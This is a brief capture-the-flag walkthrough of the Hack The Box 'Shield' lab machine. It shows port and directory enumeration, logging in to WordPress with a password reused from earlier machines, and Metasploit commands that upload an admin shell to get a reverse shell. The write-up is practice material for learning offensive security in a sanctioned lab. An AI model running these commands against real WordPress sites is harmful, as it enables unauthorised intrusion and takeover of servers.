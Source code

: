 # Shield (starting point)

## Enumeration

```bash
80/tcp   open  http    Microsoft IIS httpd 10.0
3306/tcp open  mysql   MySQL (unauthorized)
Microsoft Windows Server 2016 (91%)
```

```bash
gobuster dir -u 10.10.10.29 -w /usr/share/dirbuster-ng/wordlists/common.txt
```

> http://10.10.10.29/wordpress/wp-login.php

## Entry

We test every password found on previous machines:

> `P@s5w0rd!` works

We can now plant a reverse shell using msf:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
set password P@s5w0rd!
set username admin
set rhosts 10.10.10.29
set targeturi /wordpress
run
```
